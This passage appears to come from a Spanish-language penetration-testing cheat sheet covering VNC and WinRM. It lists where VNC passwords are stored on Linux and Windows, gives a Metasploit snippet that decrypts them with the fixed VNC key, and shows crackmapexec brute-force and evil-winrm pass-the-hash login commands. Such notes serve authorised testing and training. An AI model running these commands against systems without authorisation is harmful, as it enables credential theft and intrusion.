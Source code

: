 #### Found VNC password

##### Linux

```
Default password is stored in: ~/.vnc/passwd
```

##### Windows

```
# RealVNC
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver

# TightVNC
HKEY_CURRENT_USER\Software\TightVNC\Server

# TigerVNC
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4

# UltraVNC
C:\Program Files\UltraVNC\ultravnc.ini
```

#### Decrypt VNC password

```
msfconsole
irb
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
require 'rex/proto/rfb'
Rex::Proto::RFB::Cipher.decrypt ["2151D3722874AD0C"].pack('H*'), fixedkey
/dev/nul
```

---

### WINRM -> 5985, 5986

#### Fuerza bruta

```
crackmapexec winrm <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
```

#### Conectarte

```
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
evil-winrm -i <IP> -u <USER> -H <HASH>
```

---

## Tansferencia de archivos
